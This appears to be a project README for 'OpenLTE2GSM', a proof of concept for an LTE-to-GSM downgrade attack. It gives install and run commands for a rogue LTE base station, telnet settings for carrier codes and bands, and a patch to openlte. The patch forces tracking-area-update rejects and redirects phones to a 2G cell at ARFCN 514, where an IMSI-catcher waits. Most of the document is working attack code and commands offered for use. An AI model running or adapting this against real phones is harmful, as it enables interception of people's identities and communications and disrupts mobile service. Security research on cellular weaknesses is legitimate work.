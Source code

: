 Redirect 4G->2G (Simplified version)
====================================

Install (Working on Ubuntu 20.04.4)
-----------------------------------
.. code:: bash

   git clone https://github.com/bbaranoff/OpenLTE2GSM
   cd OpenLTE2GSM
   sudo bash install.sh

Running LTE Redirection Attack
------------------------------

Redirect attack from long term evolution (LTE 4G) to global system
mobile (GSM 2G): article in progress

Tested with : LimeSDR-Mini + 2 Motorola (C1XX series osmocom-bb
compatibles) or BladeRF-xA4 + 2 Motorola or BladeRF-xA4 + LimeSDR-Mini

Phone in 2G/3G/4G mode This article is in progress and is just a PoC The
attack step are run the IMSI-catcher into arfcn 514 follow (see Build
IMSI-catcher) run the 4G redirector as follow

Shell #1

.. code:: bash

   sudo LTE_fdd_enodeb

Shell #2

.. code:: bash

   telnet localhost 30000
   write rx_gain 30
   write tx_gain 80
   write mcc 215
   write mnc 15
   write band 7
   write dl_earfcn 3350
   write tracking_area_code 6604

(change with your ue values be careful that the earfcn is in the band
you can have tracking_area_code via mobile testing mode \*#0011# on
samsung or \*#*#4636#*#\* on OnePlus for example)

Shell #2

.. code:: bash

   start

wait… and when you have “ok” answer in shell #2 and … enjoy !

.. code:: patch

   --- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
   +++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
   @@ -11698,13 +11698,28 @@
            liblte_value_2_bits(0, &msg_ptr, 2);
    
            // Optional indicators
   -        liblte_value_2_bits(0, &msg_ptr, 1);
   +        liblte_value_2_bits(1, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
    
            // Release cause
            liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);
    
   +// redirectedcarrierinfo
   +// geran // choice
   +liblte_value_2_bits(1, &msg_ptr, 4);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// dcs1800
   +liblte_value_2_bits(0, &msg_ptr, 1);
   +// Choice of following ARFCN
   +liblte_value_2_bits(0, &msg_ptr, 2);
   +// explicit list
   +liblte_value_2_bits(1, &msg_ptr, 5);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// Note that total bits should be octet aligned,
   +// if not, pad it with zeros.
            // Fill in the number of bits used
            msg->N_bits = msg_ptr - msg->msg;
    
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
   @@ -106,6 +106,7 @@
        // Message Parsers
        void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
   +    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
        void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   @@ -125,6 +126,8 @@
        // Message Senders
        void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
   @@ -99,18 +99,21 @@
    typedef enum{
        LTE_FDD_ENB_MME_PROC_IDLE = 0,
        LTE_FDD_ENB_MME_PROC_ATTACH,
   +    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
        LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
        LTE_FDD_ENB_MME_PROC_DETACH,
        LTE_FDD_ENB_MME_PROC_N_ITEMS,
    }LTE_FDD_ENB_MME_PROC_ENUM;
    static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                      "ATTACH",
   +                                         "TAU REQUEST",
                                                                                      "SERVICE REQUEST",
                                                                                      "DETACH"};
    
    typedef enum{
        LTE_FDD_ENB_MME_STATE_IDLE = 0,
        LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
   +LTE_FDD_ENB_MME_STATE_TAU_REJECT,
        LTE_FDD_ENB_MME_STATE_REJECT,
        LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
        LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
   @@ -126,7 +129,7 @@
    }LTE_FDD_ENB_MME_STATE_ENUM;
    static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                        "ID REQUEST IMSI",
   -                                                                                    "REJECT",
   +                                                                       "REJECT",
                                                                                        "AUTHENTICATE",
                                                                                        "AUTH REJECTED",
                                                                                        "ENABLE SECURITY",
   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
   @@ -204,6 +204,10 @@
            case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
                parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
                break;
   +        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
   +            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
   +            break;
   +
            case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
                parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
                break;
   @@ -655,6 +659,16 @@
            }
        }
    }
   +void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
   +                                           LTE_fdd_enb_user       **user,
   +                                           LTE_fdd_enb_rb         **rb)
   +{
   +    // Set the procedure
   +
   +(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
   +(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
   +
   +
    void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                       LTE_fdd_enb_user       *user,
                                                       LTE_fdd_enb_rb         *rb)
   @@ -864,7 +878,7 @@
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                    user->set_id(hss->get_user_id_from_imei(imei_num));
                }else{
   -                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
   +                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
                }
            }else{
   @@ -1195,6 +1209,9 @@
            user->prepare_for_deletion();
            send_attach_reject(user, rb);
            break;
   + case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
   +        send_tracking_area_update_reject(user, rb);
   +break;
        case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
            send_authentication_request(user, rb);
            break;
   @@ -1397,6 +1414,52 @@
                          (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                          sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
    }
   +
   +
   +
   +
   +void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
   +                                         LTE_fdd_enb_rb   *rb)
   +{
   +    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
   +    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
   +    LIBLTE_BYTE_MSG_STRUCT                   msg;
   +     ta_update_rej.emm_cause = user->get_emm_cause();
   +     ta_update_rej.t3446_present = false;
   +     liblte_mme_pack_tracking_area_update_reject_msg(
   +     &ta_update_rej,
   +     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
   +     user->get_auth_vec()->k_nas_int,
   +     user->get_auth_vec()->nas_count_dl,
   +     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
   +     &msg);
   +    // Queue the NAS message for RRC
   +    rb->queue_rrc_nas_msg(&msg);
   +
   +    // Signal RRC for NAS message
   +    nas_msg_ready.user = user;
   +    nas_msg_ready.rb   = rb;
   +    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
   +                      LTE_FDD_ENB_DEST_LAYER_RRC,
   +                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
   +                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
   +
   +    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
   +// Unpack the message
   +    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
   +
   +    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
   +                                  user->get_imsi_str().c_str(),
   +                                  user->get_imei_str().c_str());
   +
   +    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
   +}
   +
   +
   +
   +
   +
   +
    void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                             LTE_fdd_enb_rb   *rb)
    {
   @@ -1412,7 +1475,7 @@
            imsi_num = user->get_temp_id();
        }
    
   -    attach_rej.emm_cause           = user->get_emm_cause();
   +    attach_rej.emm_cause           = 2;
        attach_rej.esm_msg_present     = false;
        attach_rej.t3446_value_present = false;
        liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
   @@ -229,7 +229,7 @@
        try
        {
            // Setup the USRP
   -        if(devs[idx-1]["type"] == "x300")
   +        if(devs[idx-1]["type"] == "soapy")
            {
                devs[idx-1]["master_clock_rate"] = "184320000";
                master_clock_set                 = true;
   @@ -252,7 +252,6 @@
                usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
                usrp->set_tx_gain(tx_gain);
                usrp->set_rx_gain(rx_gain);
   -
                // Setup the TX and RX streams
                tx_stream  = usrp->get_tx_stream(stream_args);
                rx_stream  = usrp->get_rx_stream(stream_args);
   @@ -822,7 +821,7 @@
            buffer_size = 1024;
        }
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_TX,
   +                                BLADERF_TX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -842,7 +841,7 @@
    
        // Setup sync RX
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_RX,
   +                                BLADERF_RX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -974,7 +973,7 @@
        if(radio_params->init_needed)
        {
            // Assume RX_timestamp and TX_timestamp difference is 0
   -        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
   +        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
            next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
            metadata_rx.flags     = 0;
            metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes
